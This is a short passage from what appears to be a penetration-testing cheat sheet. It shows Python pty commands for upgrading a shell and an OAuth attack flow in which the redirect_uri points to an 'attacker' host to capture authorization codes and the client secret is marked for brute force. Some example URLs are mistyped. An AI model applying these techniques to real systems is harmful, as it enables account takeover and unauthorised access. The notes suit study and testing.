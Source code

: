 python3 -c "import pty;pty.spawn('/bin/bash')"

or

python -c "import pty;pty.spawn('/bin/bash')"

export TERM=xterm

Ctrl+z

stty raw -echo; fg

## Authentication

### OAUTH

https://www.rfc-editor.org/rfc/rfc6749

request for the oauth consent:
method: GET
path: /oauth/authorize
data:
response_type=[code or token]
redirect_uri
scope
client_id
example request:
http://vulnerable_oauth_server.com/oaut/authorize?response_type=code&redirect_uri=http://attacker/callbacscope=view_gallery&client_id=photoprint",
the redirect to the attacker page is:
example response:
redirect to:
http://attacker/callback/?code=AUTHORIZATION_CODE

request to get the token (for initial and refresh):
method: POST
path: /oaut/token
data:
redirect_uri
grant_type=[authorization_code or refresh_token]
client_id
client_secret=[BRUTE_FORCE]
code=AUTHORIZATION_CODE
example response:
access_token
refresh_token
id_token
token_type

finaly use access_token in the requeste that requires authentication

[python OAUTH2 login examples](./programming/python/o2auths/o2auths/views.py)

### JWT
